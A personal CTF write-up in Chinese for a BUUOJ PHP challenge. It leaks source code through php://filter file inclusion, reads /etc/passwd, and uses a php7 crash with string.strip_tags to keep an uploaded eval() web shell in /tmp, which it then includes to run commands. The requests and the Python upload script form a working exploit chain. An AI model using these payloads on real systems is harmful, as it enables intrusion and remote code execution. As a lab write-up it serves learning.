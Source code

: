 ![[Pasted image 20230121101659.png|300]]

```
/index.php
```

```
username/password error
```

![[Pasted image 20230121101833.png|500]]

![[Pasted image 20230121102812.png|700]]

```
/index.php?pass=fa25e54758d5d5c1927781a6ede89f8a
```

![[Pasted image 20230121103010.png|500]]

![[Pasted image 20230121103329.png|700]]

```
/flflflflag.php
```

```html
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
include($_GET["file"])</body>
</html>
```

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=flflflflag.php
```

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

`flag`并不在这里

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
	echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
	</script>
';
}else{
	setcookie("Hash",md5($secret.$name),time()+3600000);
	echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=config.php
```

```php
<?php
$secret='%^$&$#fffdflag_is_not_here_ha_ha';
?>
```

死胡同.jpg

---

# php临时文件包含

![[Pasted image 20230121111807.png|500]]

扫目录能扫到`dir.php`

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=dir.php
```

```php
<?php
var_dump(scandir('/tmp'));
?>
```

通过`dir.php`可以查看`/tmp`目录下的文件

![[Pasted image 20230121113234.png]]

`php`在接收`POST`上传的文件之后会把文件先放在临时目录下面，之后再通过`move_uploaded_file`之类的操作移动到别的地方

利用`php7`部分版本的一个`bug`可以让`php`崩溃，于是上传的文件滞留在临时目录而不会被自动删除

```
/flflflflag.php?file=php://filter/read=string.strip_tags/resource=/etc/passwd
```

```python
import requests

url = 'http://b1eb74ce-6032-4d09-a41d-7de34a780ed4.node4.buuoj.cn:81/flflflflag.php?file=php://filter/read=string.strip_tags/resource=/etc/passwd'
payload = "<?php eval($_GET['cmd']); ?>"
files = {'shell.php': payload.encode()}

requests.post(url, files=files)
```

```
/dir.php
```

```php
array(3) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(9) "phpjyG5mT"
}
```

```
/flflflflag.php?file=/tmp/phpjyG5mT&cmd=phpinfo();
```

![[Pasted image 20230121115152.png]]

#Web #PHP #目录扫描 #源码泄漏 #伪协议 #Vulnerabilities #文件上传